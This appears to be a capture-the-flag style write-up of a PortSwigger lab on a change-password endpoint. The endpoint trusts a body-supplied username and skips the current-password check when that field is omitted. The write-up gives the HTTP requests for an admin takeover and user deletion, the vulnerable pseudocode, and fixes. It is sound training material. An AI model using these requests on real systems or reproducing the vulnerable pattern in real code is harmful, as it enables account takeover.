


# Lab 07: Weak Isolation on Dual-Use Endpoint

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 07
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Privilege Escalation via Dual-Use Endpoint with Missing Authorization Check

## Vulnerability Summary
The application's change-password endpoint (`POST /my-account/change-password`) serves a dual purpose: it handles both self-service password changes and, implicitly, admin-initiated password resets. The endpoint accepts a `username` parameter that determines whose password is changed. When a normal user submits the form, the server should verify the current password before allowing a change — but this check is tied to the presence of the `current-password` field, not enforced independently. By omitting `current-password` and supplying `username=administrator`, any authenticated user can reset the administrator's password without knowing it, then log in as admin and delete any user.

## Attack Methodology

### Step 1: Identify the Change-Password Endpoint
Logged in as `wiener:peter`. Navigated to **My account** and changed the password normally. Intercepted the request in Burp:

```http
POST /my-account/change-password HTTP/2
Host: 0ae900d404c616bb82e74e0e001100ab.web-security-academy.net
Cookie: session=<wiener-session>
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=wiener&current-password=peter&new-password-1=test&new-password-2=test
```

Noticed the `username` field is included in the POST body — the server uses this to determine whose password to change rather than deriving it from the session.

### Step 2: Test Username Parameter Manipulation
Sent the request to Burp Repeater. Modified:
- `username` → `administrator`
- Removed `current-password` entirely
- Set `new-password-1` and `new-password-2` to a known value

```http
POST /my-account/change-password HTTP/2
Cookie: session=<wiener-session>
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=administrator&new-password-1=meow&new-password-2=meow
```

Response (rendered in Burp): **"Password changed successfully!"** ✅

The server changed the administrator's password without verifying the current password, and without checking that the session user matches the target `username`.

### Step 3: Log In as Administrator

```http
POST /login HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=administrator&password=meow
```

Logged in successfully. Admin panel link visible in navigation.

### Step 4: Delete carlos

```
GET /admin/delete?username=carlos HTTP/2
```

Response: **"User deleted successfully!"** — Lab solved.





## Technical Root Cause

### Vulnerable Implementation (Pseudocode)
```python
def change_password(request):
    username = request.POST.get('username')          # attacker-controlled
    current  = request.POST.get('current-password')  # optional — not enforced
    new_pw   = request.POST.get('new-password-1')

    if current:  # only checks current password IF the field is present
        if not verify_password(username, current):
            return error("Incorrect current password")

    update_password(username, new_pw)  # runs for any username if current omitted
    return success("Password changed successfully!")
```

Two flaws:
1. `username` is taken from the request body instead of the authenticated session — any user can target any account
2. The current-password check is conditional on the field being present — omitting it bypasses the check entirely

### Secure Implementation (Pseudocode)
```python
def change_password(request):
    # Derive target user from session, never from request body
    username = request.session['username']
    current  = request.POST.get('current-password')
    new_pw   = request.POST.get('new-password-1')

    # Always require current password for self-service changes
    if not verify_password(username, current):
        return error("Incorrect current password")

    update_password(username, new_pw)
    return success("Password changed successfully!")
```

Admin-initiated resets should be a separate, admin-only endpoint with its own authorization check.

## Impact
- **Full Admin Account Takeover**: Any authenticated user can reset the administrator password with a single request
- **No Current Password Required**: The authentication check is entirely bypassable by omitting one POST parameter
- **Arbitrary User Deletion**: Admin access enables deleting any account

**Severity: Critical**

## Proof of Concept

```http
POST /my-account/change-password HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<any-valid-session>
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=administrator&new-password-1=pwned&new-password-2=pwned
```

Then:
```http
POST /login HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=<token>&username=administrator&password=pwned
```

Then:
```
GET /admin/delete?username=carlos HTTP/2
```

## Key Takeaways
1. **Never Trust User-Supplied Identity in Sensitive Operations**: The target of a password change must be derived from the authenticated session, not from a request parameter. Any parameter the client controls is attacker-controlled.
2. **Conditional Security Checks Are No Security Checks**: A check that only runs when a field is present can be bypassed by omitting the field. Required security validations must be unconditional.
3. **Dual-Use Endpoints Conflate Privilege Levels**: Combining self-service and admin-initiated operations in one endpoint forces a single authorization model onto two different trust levels. Separate endpoints with separate authorization are safer.
4. **Absence of a Parameter Is Also Input**: The server must handle missing fields as invalid input for security-sensitive operations, not as a signal to skip the check.

## Mitigation

### 1. Derive Username from Session
```python
username = request.session['authenticated_user']  # not from POST body
```

### 2. Unconditional Current-Password Verification
```python
current = request.POST.get('current-password', '')
if not verify_password(username, current):
    return error("Current password required")
```

### 3. Separate Admin Reset Endpoint with Authorization
```python
@require_role('admin')
def admin_reset_password(request):
    target = request.POST.get('username')
    new_pw = request.POST.get('new-password')
    update_password(target, new_pw)
```

## References
- [PortSwigger — Weak Isolation on Dual-Use Endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-620: Unverified Password Change](https://cwe.mitre.org/data/definitions/620.html)
- [OWASP — Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-04*  
*Writeup by vibhxr*
